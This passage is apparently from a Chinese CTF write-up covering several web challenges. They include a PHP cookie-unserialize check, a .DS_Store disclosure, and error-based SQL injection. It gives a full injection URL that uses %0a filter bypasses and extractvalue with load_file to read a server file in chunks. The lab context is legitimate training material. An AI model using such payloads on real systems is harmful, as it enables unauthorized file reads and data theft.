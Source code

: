 ```bash
    }
    else
    {
        echo "upload failed! allow only jpg,png,gif,jpep";
    }
}
?>

```
# flag.php
一个假的登入框，根据提示输入?hint=1，发现源码
```bash
<?php 
error_reporting(0); 
include_once("flag.php"); 
$cookie = $_COOKIE['ISecer']; 
if(isset($_GET['hint'])){ 
    show_source(__FILE__); 
} 
elseif (unserialize($cookie) === "$KEY") 
{    
    echo "$flag"; 
} 
else { 
?> 
<?php 
} 
$KEY='ISecer:www.isecer.com'; 
?>1
```
Cookie的反序列化
# sql2
[.DS_Store文件泄露](http://www.lijiejie.com/ds_store_exp_ds_store_file_disclosure_exploit)
# 孙XX的博客
# 报错注入
[12中报错语句](http://www.bugku.com/forum.php?mod=viewthread&tid=93&extra=page%3D1%26filter%3Dtypeid%26typeid%3D26)</br>
[sql注入的详细总结](http://blog.csdn.net/wuqiongrj/article/details/51995016)
空格被过滤可以使用”%09   %0A   %0C   %0D    %0B”替代
过滤了很多，尝试用反引号报错,只能读取30个，字符，改变substr()中的后两个值，多次，拼接成完整的字符Flag
```bash
http://103.238.227.13:10088/index.php?id=1%0aand%0aextractvalue(1,concat(0x7e,(select%0aconcat(0x7e,substr((load_file(0x2F7661722F746573742F6B65795F312E706870)),86,146),0x7e)),0x7e)) 
```
# Trim的日记本
